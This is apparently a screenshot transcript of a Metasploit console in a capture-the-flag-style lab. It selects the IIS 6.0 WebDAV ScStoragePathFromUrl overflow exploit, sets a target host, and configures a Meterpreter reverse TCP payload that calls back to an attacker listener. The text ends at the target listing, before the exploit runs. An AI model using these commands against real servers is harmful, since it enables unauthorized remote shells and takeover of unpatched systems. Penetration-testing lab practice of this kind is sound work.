 ```
[msf](Jobs:0 Agents:0) >> search exploit Microsoft IIS 6.0                  

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual  Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/iis/iis_webdav_scstoragepathfromurl

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/iis/iis_webdav_scstoragepathfromurl) >> set LHOST tun0
LHOST => 10.10.14.16
[msf](Jobs:0 Agents:0) exploit(windows/iis/iis_webdav_scstoragepathfromurl) >> set RHOSTS 10.10.10.15
RHOSTS => 10.10.10.15
[msf](Jobs:0 Agents:0) exploit(windows/iis/iis_webdav_scstoragepathfromurl) >> show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         10.10.10.15      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.16      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name

```
